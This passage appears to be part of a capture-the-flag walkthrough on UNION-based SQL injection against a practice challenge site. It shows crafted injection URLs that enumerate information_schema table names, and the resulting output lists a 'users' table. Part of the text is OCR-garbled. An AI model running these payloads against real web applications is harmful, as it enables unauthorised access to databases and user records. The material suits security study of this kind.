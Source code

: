 ```sql
SELECT * FROM categories
UNION
SELECT 1,productname,3 FROM products;
```

| CategoryID  | CategoryName  | Description   |
|---:|---:|---:|
|1  | Alice Mutton  | 3 |
|1 | Aniseed Syrup | 3.|
|1.|Beverages |Soft drinks, coffees, teas, beers, and ales |
|1.|Boston Crab Meat |3.|
|1.|Camembert Pierrot |3.|

Number of Records: 85

Tadaaa, we have the value of the column instead of meaningless value.

It is also important to note that if the number of rows of the first query is equal to **NULL**, **NULL** union with A = A. In order words, **NULL** union with an authenticated table = data from the authenticated table : ). But we do not know the table name ? We can look for it inside the *information_schema.tables*. The *information_schema.tables* is the table where our tables name of RDBMS are stored.

```sql
SELECT * FROM categories
UNION
SELECT 1,2,3 FROM information_schema.tables;
```

You cannot, however, execute the following sql due to several restrictions from Microsoft Jet Database. But you can try it on our target site. Previously, we knew that the number of columns is 4.
We can craft our injecting query as follows:

```url
http://securityoverride.org/challenges/basic/12/index.php?id=-1%20union%20select%201,2,3,4%20from%20information_schema.tables%20--%20-
```

```sql
Welcome user: 2,3,4frominformation_schema.tables--
Email: 3,4frominformation_schema.tables--
```
###STEP 4. Exploit.
*Pingo :>* . This actually show us nothing, By definition, you can look up all the table names under the **information_schema** database, **tables** table with the **table_name** column :>.

```url
http://securityoverride.org/challenges/basic/12/index.php?id=-1%20union%20select%201,table_name,3,4%20from%20information_schema.tables%20--%20-
```

```sql
Welcome User: CHARACTER_SETS
Email: admin@securityoverride.com
Welcome User: COLLATIONS
Email: admin@securityoverride.com
Welcome User: COLLATION_CHARACTER_SET_APPLICABILLITY
Email: admin@securityoverride.com
Welcome User: COLUMNS
Email: admin@securityoverride.com
Welocme User: COLUMN_PRIVIEGES
Email: admin@securityoverride.com
Welcome User: TABLES
Email: admin@securityoverride.com
Welcome User: users
Email: 3
```